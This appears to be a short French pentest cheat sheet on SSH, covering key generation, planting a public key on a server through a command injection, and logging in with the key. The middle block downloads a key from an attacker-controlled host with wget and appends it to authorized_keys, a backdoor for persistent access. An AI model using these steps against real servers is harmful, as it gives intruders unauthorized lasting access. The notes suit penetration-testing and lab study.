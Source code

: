 # ssh

* Créer une paire de clés SSH :

```
ssh-keygen -b 4096
```

* Importer une clé SSH sur un serveur avec une injection de commande (attention à l'encodage URL qui peut parfois être bloquant) :

```
wget http://<IP>:<PORT>/keys.pub -O /tmp/<FILE>
mkdir /home/<USER>/.ssh
cat /tmp/<FILE> >> ~/.ssh/authorized_keys
cat  ~/.ssh/authorized_keys
```

* Réaliser une connexion avec une clé SSH :

```
ssh -i keys <USER>@<IP>
```
